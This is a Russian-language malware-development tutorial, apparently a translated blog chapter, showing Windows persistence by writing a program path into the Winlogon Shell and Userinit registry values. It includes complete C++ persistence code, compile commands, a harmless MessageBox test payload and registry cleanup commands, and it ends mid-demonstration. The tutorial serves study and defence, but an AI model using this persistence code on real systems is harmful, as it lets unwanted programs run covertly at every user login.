\newpage
\subsection{73. Разработка вредоносного ПО: закрепление (persistence) - часть 7. Winlogon. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

Сегодня я расскажу о результате собственного исследования ещё одного метода закрепления: ключи реестра Winlogon.

### Winlogon

Процесс Winlogon отвечает за вход и выход пользователя, запуск и завершение работы, а также блокировку экрана. Авторы вредоносного ПО могут изменять записи реестра, которые использует Winlogon, чтобы обеспечить закрепление.

Для реализации этого метода необходимо изменить следующие ключи реестра:

- `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell`     
- `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`     

Однако для выполнения этой техники требуются права локального администратора.

### Практический пример

Сначала создадим наше вредоносное приложение (`hack.cpp`):

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE 
hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Как видите, это просто всплывающее окно "meow", как обычно.    

Скомпилируем его:

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Сгенерированный `hack.exe` нужно поместить на машину жертвы.

Изменения в ключе реестра `Shell`, включающие вредоносное приложение, приведут к выполнению как `explorer.exe`, так и `hack.exe` во время входа в систему Windows.

Это можно сделать с помощью следующего скрипта:


```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // shell
  // const char* sh = "explorer.exe,
  // Z:\\2022-06-12-malware-pers-7\\hack.exe";
  const char* sh = "explorer.exe,hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key

    // reg add 
    // "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows
    // NT\CurrentVersion\Winlogon" 
    // /v "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Shell", 0, REG_SZ, 
    (unsigned char*)sh, strlen(sh));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Аналогично для `Userinit`. Если этот раздел реестра содержит вредоносное приложение, это приведет к выполнению как `userinit.exe`, так и `hack.exe` во время входа в Windows:    

```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // userinit
  const char* ui = "C:\\Windows\\System32\\userinit.exe,
  Z:\\2022-06-12-malware-pers-7\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key

    // reg add 
    // "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows
    // NT\CurrentVersion\Winlogon" 
    // /v "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Userinit", 0, 
    REG_SZ, (unsigned char*)ui, strlen(ui));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Итак, компилируем программу, отвечающую за закрепление:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

### Демонстрация

Посмотрим, как всё работает. Сначала проверим ключи реестра:

```powershell
req query \
"HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" \
/s
```

{width="80%"}    

Скопируем вредоносное приложение в `C:\Windows\System32\` и запустим:

```powershell
.\pers.exe
```

{width="80%"}    

Затем выйдем из системы и снова войдём:

{width="80%"}    

Согласно логике нашего вредоносного приложения, появилось всплывающее окно "meow-meow":

{width="80%"}    

{width="80%"}    

Проверим свойства процесса через Process Hacker 2:

{width="80%"}    

Теперь очистим реестр:

```powershell
reg add \
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows 
NT\CurrentVersion\Winlogon" \ 
/v "Shell" /t REG_SZ /d "explorer.exe" /f
```

{width="80%"}    

Что насчёт другого ключа `Userinit.exe`? Проверим. Запускаем:

```powershell
.\pers.exe
```

{width="80%"}    

Выход и вход в систему:

{width="80%"}    

{width="80%"}    

Для чистоты эксперимента проверим свойства `hack.exe` в Process Hacker 2:

{width="80%"}    

Как видно, родительский процесс - `winlogon.exe`.

Очистка:

```powershell
reg add \
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows 
NT\CurrentVersion\Winlogon" \
/v "Userinit" /t REG_SZ /d \
"C:\Windows\System32\userinit.exe" /f
```

{width="80%"}    

Как видно, в обоих случаях вредоносное ПО будет выполняться во время аутентификации Windows.    

Но есть интересный нюанс. Например, если обновить ключ реестра следующим образом:


```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // shell
  const char* sh = "explorer.exe,
  Z:\\2022-06-12-malware-pers-7\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key

    // reg add 
    // "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows
    // NT\CurrentVersion\Winlogon" /v 
    // "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Shell", 0, 
    REG_SZ, (unsigned char*)sh, strlen(sh));
    RegCloseKey(hkey);
  }

  return 0;
}
```

То есть, наше вредоносное ПО находится по пути: `Z:\...\hack.exe` вместо `C:\Windows\System32\hack.exe`.    

Запускаем:

```powershell
.\pers.exe 
req query "HKLM\Software\Microsoft\Windows 
NT\CurrentVersion\Winlogon" /s
```

